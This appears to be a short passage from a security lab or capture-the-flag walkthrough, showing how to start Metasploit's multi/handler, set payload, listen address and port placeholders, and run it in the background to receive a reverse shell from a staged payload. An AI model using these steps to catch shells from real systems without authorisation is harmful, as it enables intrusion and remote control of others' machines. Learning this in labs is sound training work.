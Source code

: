 Start Metasploit:
```
msfconsole
```

Set to Multihandler:
```
use multi/handler
```

Check options:
```
options
```

Set options:
- `set PAYLOAD <payload>`
- `set LHOST <listen-address>`
- `set LPORT <listen-port>`

Run exploit and put it in background:

```
exploit -j
```

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell: